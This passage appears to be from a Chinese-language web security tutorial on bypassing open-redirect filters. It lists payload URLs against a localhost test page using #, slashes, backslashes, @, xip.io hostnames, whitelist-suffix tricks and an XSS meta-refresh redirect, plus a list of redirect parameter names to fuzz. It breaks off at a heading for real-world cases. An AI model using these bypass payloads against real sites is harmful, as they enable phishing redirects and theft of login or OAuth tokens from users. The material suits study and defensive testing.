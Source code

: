 #绕过  
```
http://127.0.0.1/url.php?username=1&password=1&password=1&redict=http://www.baidu.com#www.xiaozhupeiqi.com
```  
  
3.斜杠/绕过  
```
http://127.0.0.1/url.php?username=1&password=1&password=1&redict=http://www.baidu.com/www.xiaozhupeiqi.com
```  
  
或者反斜线  
```
http://127.0.0.1/url.php?username=1&password=1&password=1&redict=http://www.baidu.com\www.xiaozhupeiqi.com
```  
  
4.白名单匹配绕过  
```
比如匹配规则是必须跳转，xiaozhupeiqi.com 域名下，?#等都不行的时候，如果匹配规则为xiaozhupeiqi.com，可以尝试百度inurl:xiaozhupeiqi.com的域名，比如 aaaxiaozhupeiqi.com，这样同样可以绕过。接下来实战中会用到，
```  
  
5.xip.io绕过  
```
http://127.0.0.1/url.php?username=1&password=1&password=1&redict=http://www.xiaozhupeiqi.com.220.181.57.217.xip.io
```  
  
会跳转到百度  
  
6.理想化方法  
```
如果有机会在自己的页面设置url跳转，比如目标网站的bbs论坛自己的资料页面设置url跳转，既然是服务器的网站，那么url是不会限制的，可以用一个漏洞去构造另一个漏洞。
```  
  
7.白名单网站可信  
```
如果url跳转点信任百度url，google url或者其他，则可以多次跳转达到自己的恶意界面。
```  
  
8.协议绕过  
```
http与https协议转换尝试，或者省略 http://127.0.0.1/url.php?username=1&password=1&password=1&redict=//www.xiaozhupeiqi.com@www.baidu.com http://127.0.0.1/url.php?username=1&password=1&password=1&redict=////www.xiaozhupeiqi.com@www.baidu.com//多斜线
```  
  
9.xss跳转  
```
这种就没啥说的了，就是XSS造成的跳转，下面也有案例，在有些情况下XSS只能造成跳转的危害。 <meta content="1;url=http://www.baidu.com" http-equiv="refresh">
```  
# fuzz几个参数  
```
redirect url redirectUrl callback return_url toUrl ReturnUrl fromUrl redUrl request redirect_to redirect_url jump jump_to target to goto link linkto domain oauth_callback
```  
# 实战几个案例  
  